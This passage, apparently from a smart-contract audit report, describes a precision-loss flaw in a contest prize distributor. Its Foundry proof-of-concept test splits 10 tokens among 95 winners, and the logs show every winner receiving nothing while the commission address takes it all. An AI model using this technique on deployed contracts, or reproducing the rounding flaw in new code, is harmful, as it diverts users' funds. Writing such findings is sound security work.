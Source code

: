```solidity
    }

```

We change the value transferred to the `proxyAddress` to `10` tokens.

Note: We are not using `10 ether` here as ether has 18 decimals which misguides the intended attack.

Now, we create a function called `testPrecisionLoss()` wherein we simulate end of a contest and call the `deployProxyAndDistribute()` function. This makes use of the modified `createData()` function to send in `95` winners, each being rewarded with percentage of `100 BASIS POINTS`, which is equal to `(10000 - COMMISSION_FEE)` i.e. `9500 BASIS POINTS` thus satisfying the conditions in the `_distribute()` function and allowing distribution of funds.

Code:

```
function testPrecisionLoss() public setUpContestForJasonAndSentJpycv2Token(organizer) {
        bytes32 randomId_ = keccak256(abi.encode("Jason", "001"));

        //create data from modified createData() function
				bytes memory data = createData();

        vm.startPrank(organizer);
        console.log("User1 Start Balance -", MockERC20(jpycv2Address).balanceOf(user1));
        console.log("Stadium Balance Before: ",MockERC20(jpycv2Address).balanceOf(stadiumAddress));

        //warping to the time where contest ends and token distribution is allowed
				vm.warp(30 days);

				// distributing the rewards to all 95 winners
        proxyFactory.deployProxyAndDistribute(randomId_, address(distributor), data);

        console.log("Stadium End Balance: ",MockERC20(jpycv2Address).balanceOf(stadiumAddress));
        console.log("User1 After Balance -", MockERC20(jpycv2Address).balanceOf(user1));

        vm.stopPrank();
    }
```

The logs prove the existence of precision loss:

```
Running 1 test for test/integration/ProxyFactoryTest.t.sol:ProxyFactoryTest
[PASS] testPrecisionLoss() (gas: 892788)
Logs:
  0x000000000000000000000000000000000000000E
  User1 Start Balance - 0
  Stadium Balance Before:  0
  Stadium End Balance:  10
  User1 After Balance - 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.16ms
```
